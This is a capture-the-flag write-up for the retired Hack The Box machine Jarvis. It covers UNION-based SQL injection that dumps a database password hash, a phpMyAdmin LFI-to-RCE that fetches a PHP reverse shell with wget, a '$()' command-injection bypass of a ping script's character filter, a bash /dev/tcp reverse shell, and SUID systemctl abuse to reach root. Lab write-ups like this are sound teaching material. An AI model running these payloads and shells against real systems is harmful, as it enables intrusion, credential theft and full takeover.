




# Jarvis

This is the write-up for the box Jarvis that got retired at the 9th November 2019.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.143    jarvis.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/jarvis.nmap 10.10.10.143
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is some kind of hotel booking page and there are some paths and hints:
- There are two pages that have a PHP extension:
  - rooms-suites.php
  - dining-bar.php
- _rooms-suites.php_ shows rooms and when trying to book them forwards to _room.php?cod=1_
  - The value of _cod_ varies on the rooms from 1 to 6
- In the footer are two potential hostnames:
  - _supersecurehotel.htb_
  - _supersecurehotel@logger.htb_

After putting the hostnames into my _/etc/hosts_ file and browsing to the web pages with the hostnames, it shows the same as the IP address, so these hostnames seem to be useless.

Lets test the _room.php_ for **SQL Injection** by fuzzing through a list of special characters with **Wfuzz**:
```markdown
wfuzz -u http://10.10.10.143/room.php?cod=1FUZZ -w /usr/share/seclists/Fuzzing/special-chars.txt
```

After going through all special characters, five of them result in different sizes:
- Ampersand _(&)_
- Number sign _(#)_
- Plus sign _(+)_
- Dot _(.)_
- Semicolon _(;)_

The _ampersand_ and _number sign_ are all default symbols in URLs in general, but the _semicolon_, the _dot_ and the _plus sign_ could be used for either math or separating commands.

When trying out math with the _plus sign_ nothing changes and no room gets shown:
```markdown
GET /room.php?cod=1+2
```

But when using math with a _minus sign_ to subtract from the value, it displays that room. In this example, the website shows room 2:
```markdown
GET /room.php?cod=3-1
```

This means there is some **SQL Injection** to exploit.

### Exploiting SQL Injection

The SQL query we are sending looks probably somewhat like this:
```sql
SELECT id, image-url, rating, roomname, cost, description FROM rooms WHERE cod = 1
```

This means we control everything after the _WHERE_ statement and the [MySQL Query Syntax](https://dev.mysql.com/doc/refman/5.7/en/select.html) helps with the query commands.  
The _UNION_ command also comes after the _WHERE_ command, so this is a **UNION-based SQL Injection**.

Trying out how many statements are needed until it gives a valid response:
```markdown
GET /room.php?cod=1 union select 1
GET /room.php?cod=1 union select 1,2
GET /room.php?cod=1 union select 1,2,3
(...)
GET /room.php?cod=1 union select 1,2,3,4,5,6,7
```

At seven the web page shows a result which means, there are 7 _SELECT_ statements in this query, so update our imaginary query:
```sql
SELECT id, image-url, rating, roomname, cost, description, UNKOWN FROM rooms WHERE cod = 1 UNION 1,2,3,4,5,6,7-- -
```

When trying an invalid room number, the response changes:
```markdown
GET /room.php?cod=123 union select 1,2,3,4,5,6,7
```


This means that the third statement is the cost and can be changed to whatever we want:
```markdown
GET /room.php?cod=123 union select 1,2,"TEST",4,5,6,7
```


It can also be changed to a SQL query:
```markdown
GET /room.php?cod=123 union select 1,2,(select @@version),4,5,6,7
```
```markdown
"price-room">10.1.37-MariaDB-0+deb9u1<
```

Lets enumerate the [Information_Schema Tables of MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html) to gain information about the databases.

#### Enumerating the Information Schema Table

Requesting the _SCHEMATA_:
```markdown
GET /room.php?cod=123+union+select+1,2,(select+SCHEMA_NAME+from+Information_Schema.SCHEMATA+LIMIT+0,1),4,5,6,7
```

The _LIMIT_ is needed because the query is not able to show more than one line, but can be bypassed by group concatenating the results:
```markdown
GET /room.php?cod=123+union+select+1,2,(select+group_concat(SCHEMA_NAME,":")+from+Information_Schema.SCHEMATA),4,5,6,7
```
```markdown
"price-room">hotel:,information_schema:,mysql:,performance_schema:
```

So there are four databases, which could contain valuable information.

Schema of the database _hotel_:
```markdown
GET /room.php?cod=123+union+select+1,2,(select+group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n")+from+Information_Schema.COLUMNS+where+TABLE_SCHEMA+=+'hotel'),4,5,6,7
```
```markdown
,room:cod
,room:name
,room:price
,room:descrip
,room:star
,room:image
,room:mini
```

The database _hotel_ has one table _(room)_ with seven parameters, but none of them are interesting.

Contents of the _user_ table in the _mysql_ database:
```markdown
GET /room.php?cod=123+union+select+1,2,(select+group_concat(host,":",user,":",password,"\r\n")+from+mysql.user),4,5,6,7
```
```markdown
localhost:DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

It shows the username _DBadmin_ and a password hash, that can be cracked with **Hashcat**:
```markdown
hashcat -m 300 jarvis_db.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is:
> imissyou

There is probably a login somewhere to use, so search for hidden PHP files and directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.143/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It found the directory _/phpmyadmin_ that forwards to a **phpMyAdmin** login prompt where the gained credentials work:



### Exploiting phpMyAdmin

The version of **phpMyAdmin** is 4.8.0 which is from 2018 and has vulnerabilities.
This [article from Vulnspy](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/) describes a **Local File Inclusion** into an **authenticated Remote Code Execution** vulnerability, that we will use.

Running a SQL statement:
```markdown
select '<?php phpinfo();exit;?>'
```



Getting the session Cookie of phpMyAdmin:



Exploiting the LFI and executing the PHP code:
```markdown
10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../var/lib/php/sessions/sess_pe39qj4g9ehq1n10dm1m5v6tsivkbffd
```

Now it shows _phpinfo_ and proofs code execution:



A PHP reverse shell from the **Laudanum scripts** can be uploaded with the following statement on the phpMyAdmin interface:
```markdown
select '<?php exec("wget -O /var/www/html/revshell.php http://10.10.14.8/revshell.php"); ?>'
```

Now it is uploaded and executing it, should be possible:
```markdown
10.10.10.143/revshell.php
```

After browsing to the page, the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

When checking the root permissions of _www-data_ via `sudo -l`, it shows that a Python script can be ran as _pepper_:
```markdown
User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

This script shows some statistics about attackers, their IPs and it can ping IPs.
```markdown
sudo -u pepper /var/www/Admin-Utilities/simpler.py
```

The pinging function is the most interesting one, as it blocks some special characters:
- Ampersand _(&)_
- Semicolon _(;)_
- Dash _(-)_
- Single tick
- Pipe _(|)_

But instead of these, the _Dollar sign ($)_ can be used to execute other commands:
```markdown
sudo -u pepper /var/www/Admin-Utilities/simpler.py

Enter an IP: $(whoami)
ping: pepper: Temporary failure in name resolution
```

In this case, it looks for the hostname _"pepper"_ because of `whoami` and can't find it, but proofs arbitrary command execution.
Creating a reverse shell script _(/tmp/shell.sh)_ to run as _pepper_:
```markdown
bash -i >& /dev/tcp/10.10.14.8/9002 0>&1
```
```markdown
(...)
Enter an IP: $(bash /tmp/shell.sh)
```

After executing it, the listener on my IP and port 9002 starts a reverse shell session as _pepper_.

### Privilege Escalation to root

Lets examine the binaries with **SetUID bit** set:
```markdown
find / -perm -4000 -ls 2>/dev/null
```

The binary _/bin/systemctl_ normally has the **SUID bit** not set by default, but on this box it does.
On [GTFOBins](https://gtfobins.github.io/) it shows, how it can be exploited to escalate privileges.
```markdown
echo '[Service]
Type=oneshot
ExecStart=/home/pepper/shell.sh
[Install]
WantedBy=multi-user.target' > shell.service

systemctl link shell.service
systemctl enable --now shell.service
```

After enabling the service, the listener on my IP and port 9002 starts a reverse shell connection as root!
